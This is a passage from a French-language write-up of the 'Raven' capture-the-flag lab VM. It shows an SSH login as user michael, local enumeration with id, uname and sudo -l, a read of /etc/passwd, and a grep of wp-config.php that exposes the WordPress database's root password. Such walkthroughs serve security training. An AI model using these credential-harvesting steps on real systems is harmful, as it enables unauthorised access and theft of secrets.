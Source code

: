 Bingo, nous disposons d'un shell sur le serveur !
Mais au fait, qui est ce Michael ? Il ne figure pas dans le staff du site vitrine. Bizarre...

```console
root@blinils:~# ssh michael@192.168.56.105
michael@192.168.56.105's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.

michael@Raven:~$ id; uname -a;
uid=1000(michael) gid=1000(michael) groups=1000(michael),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux

michael@Raven:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for michael: 
Sorry, user michael may not run sudo on raven.
```

## Dump de la base de données via l'accès à wp-config.php

Le fichier [```/etc/passwd```](https://fr.wikipedia.org/wiki/Passwd) témoigne de l'existence d'un deuxième utilisateur potentiellement intéressant : ```steven```.

```console
michael@Raven:~$ tail -n5 /etc/passwd
michael:x:1000:1000:michael,,,:/home/michael:/bin/bash
smmta:x:108:114:Mail Transfer Agent,,,:/var/lib/sendmail:/bin/false
smmsp:x:109:115:Mail Submission Program,,,:/var/lib/sendmail:/bin/false
mysql:x:110:116:MySQL Server,,,:/nonexistent:/bin/false
steven:x:1001:1001::/home/steven:/bin/sh
```

D'autre part, le fichier de configuration ```wp-config.php``` nous donne le sésame de la base de données présente sur le serveur.

```console
michael@Raven:~$ locate wp-config.php
/var/www/html/wordpress/wp-config.php
michael@Raven:~$ cat /var/www/html/wordpress/wp-config.php | grep DB
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'R@v3nSecurity');
define('DB_HOST', 'localhost');
define('DB_CHARSET', 'utf8mb4');
define('DB_COLLATE', '');
```
